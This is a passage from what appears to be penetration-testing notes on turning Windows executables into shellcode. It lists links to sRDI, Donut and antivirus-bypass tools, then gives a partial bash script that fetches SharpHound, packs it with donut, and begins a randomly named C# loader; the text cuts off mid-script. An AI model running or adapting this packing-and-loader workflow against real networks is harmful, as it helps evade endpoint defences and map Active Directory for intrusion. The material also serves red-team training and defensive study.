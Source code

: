 ```
SetupCommitFileQueue
SymEnumProcesses
SymFindFileInPath
VerifierEnumerateResource
```




## PE to Shellcode

- [https://samples.vx-underground.org/Papers/Windows/Analysis and Internals/2020-10-11 - From a C project through assembly to shellcode.pdf](https://samples.vx-underground.org/Papers/Windows/Analysis%20and%20Internals/2020-10-11%20-%20From%20a%20C%20project%20through%20assembly%20to%20shellcode.pdf)
- [https://github.com/hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
- [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)
- [https://github.com/s0i37/av_bypass/blob/master/crypt/cryptor.py](https://github.com/s0i37/av_bypass/blob/master/crypt/cryptor.py)



### sRDI

- [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- [https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/](https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/)



### Donut

- [https://thewover.github.io/Introducing-Donut/](https://thewover.github.io/Introducing-Donut/)
- [https://thewover.github.io/Cruller/](https://thewover.github.io/Cruller/)
- [https://github.com/TheWover/donut](https://github.com/TheWover/donut)
- [https://github.com/S4ntiagoP/donut/tree/syscalls](https://github.com/S4ntiagoP/donut/tree/syscalls)
- [https://github.com/Binject/go-donut](https://github.com/Binject/go-donut)
- [https://github.com/listinvest/undonut]https://github.com/listinvest/undonut()

[Example](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146) with [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and donut (C# cross-compilation is done with [Mono](https://www.mono-project.com/download/stable/)):

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
```